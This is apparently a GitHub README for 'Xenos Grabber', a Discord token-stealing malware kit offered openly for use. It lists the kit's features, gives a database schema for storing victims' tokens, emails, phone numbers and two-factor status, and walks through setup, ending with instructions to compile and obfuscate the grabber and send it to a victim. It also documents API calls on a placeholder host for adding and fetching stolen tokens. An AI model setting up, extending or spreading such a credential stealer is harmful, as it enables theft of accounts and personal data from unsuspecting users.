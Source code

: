<div align="center">
  <h2>🐺 Xenos Grabber 🐺</h2>
  <p>The most powerfull Discord Token Grabber</p>
  <a href="https://kanekiweb.tk/discord" target="_blank">Join my Discord Serveur</a><br><br>

  <img src="https://kanekiweb.tk/assets/img/xenos.gif" width="60%">
</div>

<br><br><br>


> ## Features
> - All in Interface
> - Can't delete webhook
> - Custom API for fetch/remove/add tokens
> - Login system with secret password
> - Grabber on 22 Applications/browsers
> - Very Simple Usage

<br><br>

> ## Usage
> For use Xenos, you need a Server accept PHP and contain a database,
> 1. Put the files in your host
> 2. Go to your phpmyadmin, in section SQL paste that:
> ```sql
> CREATE TABLE `tokens` (
>   `user_id` text NOT NULL,
>   `username` text NOT NULL,
>   `avatar` text NOT NULL,
>   `email` text NOT NULL,
>   `phone` text NOT NULL,
>   `badges` text NOT NULL,
>   `nitro_badges` text NOT NULL,
>   `twofactor` text NOT NULL,
>   `token` text NOT NULL
> ) ENGINE=InnoDB DEFAULT CHARSET=utf8;
> ```
> 3. Make your database ip,databse name,username,password in the file `Inc/database.php`
> 4. Setup your passwords and webhooks in `INC/functions.php`
> 5. Make your host adress in `Grabber/python/Xenos.py` at line 5
> 6. compile and Obfusque your Grabber and send it to your victime :)

> 7. Put a stars and follow me for more :)

<br><br>

> ## API Working
> - Add Discord Token To Database
> - - `https://yourhost.com/api?type=addtoken&token=THE_VICTIME_TOKEN`
> - Remove Discord Token From Database
> - - `https://yourhost.com/api?type=removetoken&password=YOUR_SECRET_PASSWORD&token=THE_VICTIME_TOKEN`
> - Fetch Discord Token Info From Database
> - - `https://yourhost.com/api?type=fetchtoken&password=YOUR_SECRET_PASSWORD&token=THE_VICTIME_TOKEN`
